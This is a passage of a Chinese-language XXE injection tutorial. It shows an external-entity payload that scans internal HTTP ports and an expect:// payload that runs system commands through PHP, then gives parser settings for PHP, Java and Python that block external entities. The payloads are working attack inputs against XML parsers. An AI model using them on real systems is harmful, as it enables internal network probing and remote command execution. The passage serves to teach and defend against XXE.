

## 5. HTTP端口扫描

payload：

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[
    <!ENTITY Quan SYSTEM "http://192.168.202.130:80">
]>

<reset><login>&Quan;</login><secret>Any bugs?</secret></reset>
```

设置爆破端口



根据长度或者响应时间来判断端口存活



## 6. 执行系统命令

这种情况很少发生，PHP加载了expect模块，攻击者能够通过XXE执行代码。

```
<?xml version="1.0"?>
    <!DOCTYPE Quan[
    <!ENTITY f SYSTEM "expect://执行的命令">
]>

<hhh>&f;<hhh>
```

### 1.4.1 过滤用户提交的XML数据

过滤关键词：

### 1.4.2 PHP下

libxml*disable*entity_loader(true);

### 1.4.3 JAVA下

DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance(); dbf.setExpandEntityReferences(false);

### 1.4.4 Python下

from lxml import etree xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))